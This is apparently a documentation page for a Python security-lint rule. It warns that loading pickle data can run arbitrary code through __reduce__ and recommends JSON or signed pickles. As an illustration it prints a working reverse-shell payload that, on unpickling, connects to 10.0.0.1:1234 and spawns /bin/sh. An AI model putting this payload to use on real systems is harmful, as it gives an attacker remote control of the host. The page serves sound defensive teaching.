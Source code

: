 # PIC100 

Loading serialized data with the pickle module can expose arbitrary code execution using the __reduce__ method.

Before objects are serialised, they can have a custom `__reduce__` method attribute, which will execute on expansion during the pickle loader.

This can be used to injection malicious data into serialized data.

Because pickle is often used for caching or storing python objects by serialization, attackers will use this flaw to write arbitrary code to execute on the host.

## Example

```python
import pickle

with open(f) as input:
    python_objects = pickle.load(input)
```

An example attacker payload could be:

```python
import pickle

class ReverseShell:
    def __reduce__(self):
        import socket,subprocess,os
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p=subprocess.call(["/bin/sh","-i"])

payload = pickle.dumps(ReverseShell())
```

To start an open shell on 10.0.0.1:1234.

## Fixes

Either:

* Use an alternative deserialization method, like JSON
* Sign your serialized pickle data and then verify it before deserializing to ensure it hasn't been tampered with
